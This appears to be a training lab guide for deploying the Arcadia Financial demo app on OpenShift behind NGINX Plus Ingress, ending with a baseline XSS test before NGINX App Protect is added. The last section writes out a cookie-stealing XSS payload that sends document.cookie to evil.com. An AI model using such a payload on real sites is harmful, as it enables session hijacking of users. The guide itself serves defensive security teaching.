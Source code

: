 Access Arcadia app without NGINX App Protect to establish a baseline.
------------------------------------------------


Deploy the Arcadia Application into Kubernetes
#######################################################

   .. note::  The Arcadia Financial application is the same application we introduced in Module 1, but a different version with enhanced features which will be used for our security lab exercises.


   Before we can access the Arcadia application, we need to deploy it into our Kubernetes cluster. To do this, we'll use a single manifest file that contains the necessary resources, such as Kubernetes deployments for the four Docker containers and Kubernetes services for the four Docker containers.

   To get the YAML file, we'll use the following command in our terminal window:

   .. code-block:: bash

    wget https://raw.githubusercontent.com/ericzji/nginx-openshift-lab/main/docs/class1/module2/templates/arcadia-all.yaml

   Once we have the YAML file, we can apply it to our Kubernetes cluster with the following command:

   .. code-block:: bash

      oc apply -f ./arcadia-all.yaml


   We can check that our Arcadia application is running by using the following command in our terminal window:

   .. code-block:: bash

      oc get services

   This will show us the services running in our Kubernetes cluster, including those related to the Arcadia application.

Export the NGINX Ingress Controller services
#######################################################

    Interacting with the NGINX Ingress Controller is more comfortable with exporting the service External IPs into system variables. This allows for templating to take place when we expose our applications.

    In the terminal window copy the below text and paste+enter:

    .. code-block:: bash

       export dashboard_nginx_ingress=$(oc get svc dashboard-nginx-ingress --namespace=nginx-ingress | tr -s " " | cut -d' ' -f4 | grep -v "EXTERNAL-IP")

    .. code-block:: bash

       export nginx_ingress=$(oc get svc my-nginx-ingress-controller-nginx-ingress --namespace=nginx-ingress | tr -s " " | cut -d' ' -f4 | grep -v "EXTERNAL-IP")


Publish Arcadia app with NGINX Plus Ingress Controller
########################################################

   Now that we have our Arcadia application deployed in our Kubernetes cluster, we need to publish it using the NGINX Plus Ingress Controller. We'll do this by re-creating the NGINX Ingress Controller with Basic HTTP using the following command in our terminal window:

   .. literalinclude :: templates/ingress-arcadia.yml
      :language: yaml

   This command creates a VirtualServer resource for our Arcadia application, which includes the host for the NGINX Ingress Controller and the upstreams for the different microservices. We can now access our Arcadia application externally using the NGINX Ingress Controller URL, which can be found by running the following command in our terminal window:

       .. code-block:: bash

         echo "NGINX Ingress Controller URL: http://$nginx_ingress/"

   Once we have the URL, we can access our Arcadia application by opening it in a web browser.


   You should be presented with the Main page, click on Login and enter the credentials as below.

   .. code-block:: 

      Username: matt
      Password: ilovef5

   When you click on Log me in, you should be presented with Arcadia application that consist of four microservices


   .. image:: ./pictures/image10.png
      :align: center

   Congratulations!

   You have now successfully deployed the application in K8s cluster and published it externally using the NGINX Plus Ingress controller


Is our application protected against Layer 7 attacks?
######################################################
 
Before we can protect our Arcadia application with NGINX App Protect, we need to check if it's currently vulnerable to Layer 7 attacks. We can do this by executing a simple XSS attack, which is a well-known OWASP top 10 attack.

To perform the XSS attack, we can launch the Firefox browser and append ``?a=<script>`` to the end of the application URL. If the request is allowed, then our application is vulnerable to XSS attacks.

.. image:: ./pictures/image11.png
   :align: center

We can further test this by appending ``?item='><script>document.location='http://evil.com/steal'+document.cookie</script>`` to the application URL, which will attempt to steal our document cookie. If this request is also allowed, then a bad actor could potentially steal sensitive information from our application user

.. image:: ./pictures/image12.png
   :align: center

Since our application is currently vulnerable to Layer 7 attacks, we'll need to protect it using NGINX App Protect in the following Lab.

